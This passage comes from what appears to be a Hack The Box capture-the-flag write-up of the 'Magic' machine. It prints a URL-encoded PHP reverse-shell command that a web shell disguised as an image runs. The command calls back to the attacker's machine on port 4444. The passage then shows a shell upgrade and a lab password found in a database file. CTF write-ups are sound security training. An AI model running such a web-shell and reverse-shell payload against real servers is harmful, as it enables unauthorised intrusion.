 ![](/assets/img/posts/htb/05-2020/encode.png)

With our listener ready and our image payload uploaded, navigating to this link should open a reverse shell that connects to our attacking machine.

```
http://10.10.10.185/images/uploads/sponge.php.jpg?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.15.2%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

We successfully connect. Let's run a python command to upgrade our shell.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
```
We'll have a look around. First things first, we are the www-data user and don't currently have access to `user.txt` flag. But there appears to be a user, theseus, that may have access. Let's try to escalate our privileges.

Within the Magic subdirectory of the webserver, we find a database file. Looking at the contents, we can see a password `iamkingtheseus`.

![](/assets/img/posts/htb/05-2020/db-file.png)
